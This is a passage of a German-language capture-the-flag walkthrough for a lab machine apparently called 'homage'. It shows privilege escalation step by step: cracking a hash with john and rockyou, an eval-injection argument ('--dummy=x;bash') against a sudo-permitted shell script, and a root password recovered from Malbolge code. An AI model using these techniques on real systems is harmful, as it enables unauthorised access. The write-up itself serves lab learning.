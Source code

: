 2.  **Hash-Cracking:**
    *   Der Hash wurde mit `john --wordlist=/usr/share/wordlists/rockyou.txt hash` geknackt.
    *   Das Passwort für `d4t4s3c` lautete: `jaredlee`.

3.  **Benutzerwechsel zu `d4t4s3c`:**
    *   `softy_hack@homage:~$ su d4t4s3c` mit dem Passwort `jaredlee` war erfolgreich.

### d4t4s3c -> sml (Sudo/eval Injection in Shell-Skript)

1.  **Sudo-Rechte-Prüfung für `d4t4s3c`:**
    *   `sudo -l` zeigte:
        ```
        User d4t4s3c may run the following commands on homage:
            (sml : sml) NOPASSWD: /bin/bash /home/sml/clean.sh
        ```
2.  **Analyse des Skripts `/home/sml/clean.sh`:**
    *   Das Skript enthielt eine Funktion, die Kommandozeilenargumente verarbeitete und die unsichere Zeile `eval $parameter=$value` verwendete.

3.  **Ausnutzung der `eval`-Injection:**
    *   Durch ein speziell gestaltetes Argument konnte beliebiger Code eingeschleust werden:
        ```bash
        sudo -u sml /bin/bash /home/sml/clean.sh '--dummy=x;bash'
        ```
    *   Dies gewährte eine interaktive Shell als Benutzer `sml`.

### sml -> root (Malbolge Code Decryption)

1.  **Enumeration als `sml`:**
    *   Im Verzeichnis `/home/sml/secret/` wurden die Dateien `execute_me` und `note.txt` gefunden.
    *   `cat execute_me` zeigte einen langen, obfuskierten String.

2.  **Malbolge-Code-Analyse:**
    *   Der Inhalt von `execute_me` wurde als Code in der esoterischen Programmiersprache Malbolge identifiziert.
    *   Die Ausführung/Analyse dieses Codes mit einem Online-Interpreter (z.B. `https://malbolge.doleczek.pl/`) enthüllte die Root-Zugangsdaten:
        `root:cr4zyw0rld123`

---

## Proof of Concept (Finale Root-Eskalation)

**Kurzbeschreibung:** Nachdem das Root-Passwort (`cr4zyw0rld123`) durch die Analyse des Malbolge-Codes im Home-Verzeichnis des Benutzers `sml` aufgedeckt wurde, konnte direkt zum `root`-Benutzer gewechselt werden.

**Schritte (als `sml`):**
1.  Führe den Befehl `su root` aus:
    ```bash
    sml@homage:~/secret$ su root
    ```
2.  Gib das gefundene Passwort `cr4zyw0rld123` ein.
**Ergebnis:** Der Prompt wechselt zu `root@homage:...#`, was den erfolgreichen Root-Zugriff bestätigt.

---